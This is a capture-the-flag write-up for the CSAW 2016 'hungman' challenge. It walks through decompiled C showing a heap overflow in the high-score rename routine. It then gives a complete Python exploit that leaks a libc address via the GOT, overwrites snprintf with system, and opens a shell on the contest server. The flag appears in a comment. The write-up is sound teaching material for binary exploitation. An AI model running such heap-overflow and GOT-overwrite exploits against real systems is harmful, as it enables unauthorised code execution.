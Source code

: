 ```yaml
---
layout: post
title: csaw ctf 2016 hungman writeup
category: writeup
---
```


problem binary serves simple hangman service.

```
$ ./hungman
What's your name?
HELLO
Welcome HELLO
_____
q
_q___
d
_q___
s
_q___
a
Default Highscore  score: 64
Continue? n
$
```

it has vulnerability at saving name of high-score.
```c
...
    if ( str_name->score > highScore )
    {
      puts("High score! change name?");
      __isoc99_scanf(" %c", &v3);
      if ( v3 == 'y' )
      {
        s = malloc(0xF8uLL);
        memset(s, 0, 0xF8uLL);
        v8 = read(0, s, 0xF8uLL);
        str_name->len = v8;
        v14 = strchr((const char *)s, '\n');
        if ( v14 )
          *v14 = 0;
        memcpy(str_name->buf, s, v8);
        free(s);
      }
      snprintf(highScoreName, 0x200uLL, "Highest player: %s", str_name->buf);
      highScore = str_name->score;
    }
    memset(&str_name->field_10, 0, 0x1AuLL);
    free(buf);
  }
}
```

It is easy to know that if str_name->buf was malloc with less then 0xF8, heap overflow occured.

So we need to analyze when str_name initiallized.

```c
str *get_name()
{
  char *v0; // ST10_8@3
  str *str_name; // ST18_8@3
  str *result; // rax@3
  __int64 v3; // rbx@3
  int v4; // [rsp+Ch] [rbp-124h]@1
  char *v5; // [rsp+10h] [rbp-120h]@1
  char s; // [rsp+20h] [rbp-110h]@1
  __int64 v7; // [rsp+118h] [rbp-18h]@1

  v7 = *MK_FP(__FS__, 40LL);
  write(1, "What's your name?\n", 0x12uLL);
  memset(&s, 0, 0xF8uLL);
  v4 = read(0, &s, 0xF7uLL);
  v5 = strchr(&s, '\n');
  if ( v5 )
    *v5 = 0;
  v0 = (char *)malloc(v4);
  str_name = (str *)malloc(0x80uLL);
  memset(str_name, 0, 0x80uLL);
  str_name->buf = v0;
  str_name->len = v4;
  memcpy(str_name->buf, &s, v4);
  result = str_name;
  v3 = *MK_FP(__FS__, 40LL) ^ v7;
  return result;
}
```

str_name->len is same as length of my name.

if your name is short, chance of getting highscore gets lower ( because hangman string is initialized with your name ) so we have to choose appropriate length of name, I choose 40.


if heap was overflowed, we can easily get offset of libc binary with .got section, and finaly overwrite to system.

```python
#!/usr/bin/python

import pwnbox
import struct
import argparse
import time

#flag{this_looks_like_its_a_well_hungman}

parser = argparse.ArgumentParser(description='hungman exploit')
parser.add_argument("-l", "--local", action="store_true")

args = parser.parse_args()

def get_highscore():
    x = 'a'
    while True:
        d = p.read_until('\n')
        if 'change name?' in d:
            p.write('y\n')
            return
        else:
            p.write('%c\n' % x)
            x = chr((ord(x)+1) % 26 + ord('a'))

got_snprintf = 0x602048
got_trash = 0x602010

if args.local:
    p = pwnbox.pipe.ProcessPipe('./hungman')
    offset_snprintf = 0x544b0
    offset_gets = 0x6F440
    offset_system = 0x46640
    offset_trash = 0x3db4e0

else:
    p = pwnbox.pipe.SocketPipe('pwn.chal.csaw.io',8003)
    offset_snprintf = 0x55860
    offset_gets = 0x6ECC0
    offset_system = 0x45380
    offset_trash = 0x3e0c80

p.read_until('name?\n')
p.write('A'* (16 * 3 - 8)  + '\n')
p.read_until('\n')
get_highscore()

dummy = "".ljust(0x4C - 8, "A")
payload = ''
payload += struct.pack("<I", 4)
payload += struct.pack("<Q", got_trash)
p.write(dummy + payload)

p.read_until('Highest player: ')

libc_trash = struct.unpack("<Q",p.read_until('score: ')[:6].ljust(8,'\x00'))[0]

libc_base = libc_trash - offset_trash
libc_gets = libc_base + offset_gets
libc_system = libc_base + offset_system

print "%x" % libc_base

p.read_until('Continue? ')
p.write('y')

get_highscore()

payload = ""
payload += "/bin/sh\x00"
payload += struct.pack("<Q",libc_system)
p.write(payload)
#p.write('y\n')

#get_highscore()
#p.write(struct.pack("<Q",libc_system))

p.interact()
```